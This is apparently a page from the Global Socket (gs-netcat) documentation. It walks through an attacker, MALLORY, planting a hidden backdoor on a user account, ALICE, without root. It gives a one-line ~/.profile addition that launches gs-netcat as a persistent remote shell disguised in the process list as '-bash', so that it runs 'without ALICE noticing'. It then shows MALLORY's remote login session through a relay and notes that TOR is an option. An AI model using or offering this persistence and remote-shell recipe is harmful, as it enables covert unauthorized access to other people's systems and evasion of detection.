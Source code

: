 # Global Socket User Login Shell (auto-restarting)
**Connect to a firewalled host**

**Problem**  
MALLORY gained access to ALICE but does not have superuser priviledges (root). MALLORY likes to access ALICE remotely. ALICE (and MALLORY) are on two different networks and behind a NAT/Firewall. Neither of them can reach the other.  

**Objective**  
Backdoor ALICE so that MALLORY can access ALICE remotely (without tampering with the firewall, NAT or router settings) and without superuser priviledges (root).

**Solution**  
Start gs-netcat from ALICE's *~/.profile* and do so secretly and silently (without ALICE noticing).


On "ALICE" add the following line to the end of *~/.profile*. This will start the gs-netcat backdoor every time that ALICE logs in. The gs-netcat process is hidden as *-bash* and shows up as *-bash* in the process list.
```
killall -0 gs-netcat 2>/dev/null || (GSOCKET_ARGS="-s ExampleSecretChangeMe -liqD" SHELL=/bin/bash exec -a -bash gs-netcat)
```

Start the backdoor manually for testing. Thereafter the backdoor will start (and remain running) whenever ALICE logs in for the first time:
```ShellSession
alice@ALICE:~$ source ~/.profile
```

Now log in from "MALLORY" to "ALICE":
```ShellSession
m@MALLORY:~ $ gs-netcat -s ExampleSecretChangeMe -i
=Secret         : "ExampleSecretChangeMe"
=Encryption     : SRP-AES-256-CBC-SHA-End2End (Prime: 4096 bits)
alice@ALICE:~$ id
uid=1001(alice) gid=1001(alice)
alice@ALICE:~$
```

There are other ways to start a backdoor. This is an example.

Many more gs-netcat options are available: For example *-T* to connect via TOR. See the manual page of gs-netcat. 
